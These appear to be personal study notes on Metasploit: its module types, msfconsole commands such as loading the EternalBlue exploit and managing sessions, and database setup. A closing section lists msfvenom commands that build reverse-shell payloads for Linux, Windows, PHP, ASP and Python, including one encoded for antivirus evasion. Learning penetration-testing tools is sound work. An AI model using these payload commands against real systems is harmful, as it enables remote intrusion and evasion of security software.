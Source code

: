 
modules: 

/opt/metasploit-framework/embedded/framework/modules

module rankings: [https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

  

  

**Auxiliary**

Any supporting module, such as scanners, crawlers and fuzzers, can be found here.

  

**Encoders**

Encoders will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.

  

**Evasion**

While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.

  

**Exploits**

Exploits, neatly organized by target system.

  

**NOPs**

NOPs (No OPeration) do nothing, literally. They are represented in the Intel x86 CPU family with 0x90, following which the CPU will do nothing for one cycle. They are often used as a buffer to achieve consistent payload sizes.

  

**Payloads**

Payloads are codes that will run on the target system.

- **Adapters:** An adapter wraps single payloads to convert them into different formats. For example, a normal single payload can be wrapped inside a Powershell adapter, which will make a single powershell command that will execute the payload.
- **Singles:** Self-contained payloads (add user, launch notepad.exe, etc.) that do not need to download an additional component to run.
- **Stagers:** Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. “Staged payloads” will first upload a stager on the target system then download the rest of the payload (stage). This provides some advantages as the initial size of the payload will be relatively small compared to the full payload sent at once.
- **Stages:** Downloaded by the stager. This will allow you to use larger sized payloads.

  

  

Post

Post modules will be useful on the final stage of the penetration testing process listed above, post-exploitation.

  

————————————————————————————————————————————————————————

  

commands:

  

- Set the context: use <module path> : `use exploit/windows/smb/ms17_010_eternalblue `

- `show options`
- `show payloads`: show other commands to use for the current exploit
- Get module info in context: `info`
- Set value for contextual option: `set PARAMETER_NAME VALUE`, `set LPORT 443`
- Launch the module: `exploit`, `exploit -z`, `run`
- Check if target system is vulnerable: `check`
- `background` - puts the exploit session in background. This commands is run in meterpreter session
- `sessions`: list available sessions
- `sessions -i 2` : interact with the session number 2

- `back` : leave the context
- `info <module path>` : get information for given module
- `search <keywords>`: searches module using CVE numbers, exploit names (eternalblue, heartbleed, etc.), or target system:

- filter based on module: `search type:auxiliary telnet`

  

  

——

  

Setup Database:

  

- msfdb init 
- in msfconsole:

- `db_status`
- `workspace`: shows different workspaces ( targets/projects) available
- `Hosts`: lists different scanned hosts
- `services`: lists scanned services
- `db_nmap`: same as nmap, but store the results in database

——  
  
——————

  

Generate Payloads using msfvenom

  

- `msfvenom -l payloads` : list all payloads
- `msfvenom --list formats` : list available payload formats. Eg. php
- `-e encoding_type` : set encoding
- `use exploit/multi/handler`: metasploit handler to catch any incoming reverse shell requests triggered by msfvenom payloads. set appropriate payload  value
- Eg. `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64`

- Linux Executable and Linkable Format (elf)  
    **msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf**
- Windows  
    **msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe**
- PHP  
    **msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php**  
      
    ASP  
    **msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp**  
      
    Python  
    **msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py**

msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe